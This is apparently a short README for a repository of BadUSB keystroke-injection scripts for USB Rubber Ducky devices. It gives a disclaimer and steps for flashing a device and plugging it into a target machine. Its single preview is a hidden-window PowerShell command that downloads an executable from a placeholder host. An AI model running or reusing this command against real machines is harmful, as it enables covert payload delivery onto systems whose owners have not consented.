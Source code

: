 # BadUSB Scripts

<img src="https://bobhinio.pl/assets/BadUsbBanner.webp" width="280" />


This repository contains BadUSB scripts for various use cases. Use them responsibly.

## Features
- Various pre-made scripts for USB Rubber Ducky
- Easy to customize
- Compatible with standard BadUSB devices

## Disclaimer
The files and scripts provided here are shared as-is, without any guarantees. The author cannot be held responsible for any issues or consequences arising from their use. Please use them responsibly and in compliance with applicable laws.

---

### How to Use
1. Flash the script to your BadUSB device.
2. Plug the device into a target machine.
3. Watch it execute the payload.

---

## Preview
Here's an example of a payload in action:
```powershell
powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://example.com -OutFile payload.exe"
